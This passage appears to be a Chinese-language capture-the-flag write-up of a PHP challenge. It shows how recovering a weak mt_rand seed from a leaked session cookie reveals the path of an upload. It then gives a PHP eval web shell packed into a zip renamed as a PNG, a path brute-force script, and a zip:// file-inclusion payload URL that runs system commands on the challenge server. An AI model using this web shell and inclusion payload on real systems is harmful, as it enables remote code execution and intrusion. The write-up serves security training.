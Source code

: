 ```php
$seed = rand(0,999999999);
mt_srand($seed);
$ss = mt_rand();
$hash = md5(session_id() . $ss);
setcookie('SESSI0N', $hash, time() + 3600);
```

> mt_srand ([ int $seed ] ) : void 用 seed 来给随机数发生器播种。

这里使用`burpsuite`抓包修改PHPSESSION的值为空，则`session_id()`的返回值为空，此时Response中的SESSION参数的值即为`$hash`,即为`$ss`(播种随机数)经过MD5加密后的值。

## 0x04 攻击流程

- 1.构造恶意文件`pass.php`，压缩为`pass.zip`，修改后缀为`pass.png`后上传。

```php
//pass.php
<?php @eval($_GET["pass"]); ?>
```

- 2.上传时修改PHPSESSION为空，获取响应的SESSION进行在线MD5解密，获取播种后的随机数。

![image.png](https://i.loli.net/2019/08/09/F5ZEKxsTNrU2q7P.png)

由获取的播种后的随机数，借助种子爆破工具探测种子：

![image.png](https://i.loli.net/2019/08/09/Hzjuwite8YIZqFl.png)

- 3.根据获取的种子值进行播种，构造所有可能的文件保存路径，经过校验获取真实路径。

```php
//check.php
<?php
    $arr = array(116339511, 616856024);
    foreach($arr as $a) {
        mt_srand($a);
        $set = array("a", "A", "b", "B", "c", "C", "d", "D", "e", "E", "f", "F",
                 "g", "G", "h", "H", "i", "I", "j", "J", "k", "K", "l", "L",
                 "m", "M", "n", "N", "o", "O", "p", "P", "q", "Q", "r", "R",
                 "s", "S", "t", "T", "u", "U", "v", "V", "w", "W", "x", "X",
                 "y", "Y", "z", "Z", "1", "2", "3", "4", "5", "6", "7", "8", "9");
        $str = '';
        $ss = mt_rand();  // 这一步必须加上，否则与服务器端的随机值对应不上
        for ($i = 1; $i <= 32; ++$i) {
            $ch = mt_rand(0, count($set) - 1);
            $str .= $set[$ch];
        }
        echo 'http://111.198.29.45:30015/uP1O4Ds/' . $str . '_pass.png' . "\n";
    }
?>
```

- 2.借助文件包含漏洞，通过`zip://`伪协议读取恶意zip压缩文件，进而执行系统命令。

```bash
//payload url编码后提交
http://111.198.29.45:30117/?page=zip://uP1O4Ds/naIx79yt4YdpPMM4CeaFfXlmYMWdKFyh_pass.png#pass&pass=echo system("ls");
```

![image.png](https://i.loli.net/2019/08/09/Kyfx98tDMj3CqO4.png)

进而读取flag：

![image.png](https://i.loli.net/2019/08/09/NIGn8oDgmp6EyrQ.png)
